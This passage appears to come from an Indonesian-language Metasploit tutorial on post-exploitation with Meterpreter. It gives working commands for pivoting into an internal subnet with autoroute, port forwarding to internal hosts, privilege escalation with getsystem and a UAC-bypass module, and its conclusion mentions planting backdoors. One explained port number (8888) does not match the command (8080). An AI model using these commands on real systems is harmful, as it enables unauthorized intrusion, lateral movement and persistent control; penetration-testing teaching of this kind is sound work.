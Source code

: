 Keterangan:
- `-i`: Interval `5 detik`
- `-p`: Port listener: `4444`
- `-r`: IP Attacker: `192.168.1.10`

## H. Pivoting dan Port Forwarding

Jika target berada di jaringan internal, kamu bisa pivot ke sistem lain:

```
run autoroute -s 192.168.10.0/24
```

Keterangan:
- `-s` : (subnet) jaringan internal target: `192.168.10.0/24`

Gunakan port forwarding untuk akses service internal:

```
portfwd add -l 8080 -p 80 -r 192.168.10.10
```

Keterangan:
- `-l`: Port listener: `8888`
- `-p`: Port tujuan di mesin target: `80`
- `-r`: IP target di jaringan internal korban yang akan diakses: `192.168.10.10`

## I. Privilege Escalation

Coba naikkan hak akses jadi `SYSTEM`:

```
getsystem
```

Atau gunakan exploit lokal seperti:

```
use exploit/windows/local/bypassuac
```

## J. Kesimpulan

Post-exploitation adalah fase paling menentukan dalam operasi penetrasi. Dengan Meterpreter, kamu bisa:
- Mengumpulkan informasi sensitif
- Menanamkan backdoor
- Mengendalikan perangkat target secara penuh

> Pastikan semua aksi kamu terukur, tercatat, dan bertanggung jawab.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Pivoting%20dan%20Route%20Command%20di%20Metasploit.md">Pivoting dan Route Command di Metasploit</a>
</p>
